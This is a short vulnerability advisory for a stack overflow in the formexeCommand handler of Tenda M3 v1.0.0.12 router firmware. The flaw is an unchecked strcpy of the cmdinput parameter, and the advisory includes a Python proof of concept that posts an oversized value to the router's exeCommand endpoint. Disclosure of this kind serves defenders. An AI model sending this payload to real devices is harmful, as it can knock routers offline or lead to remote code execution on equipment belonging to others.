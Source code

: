 # Tenda M3 formexeCommand
### Overview
vendor: Tenda

product: M3

version: v1.0.0.12

type: Stack Overflow
### Vulnerability Description
Tenda M3 v1.0.0.12 were discovered to contain a stack overflow via the cmdinput parameter in the formexeCommand function.

### Vulnerability details
In function formexeCommand line 18, it reads in a user-provided parameter `cmdinput`. The variable `src` is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/1.png)

### POC
```python
import requests

data = {
    "cmdinput": "a"*0x2000
}
cookies = {
    "user": "admin"
}
res = requests.post("http://192.168.0.1/goform/exeCommand", data=data, cookies=cookies)
print(res.content)
```
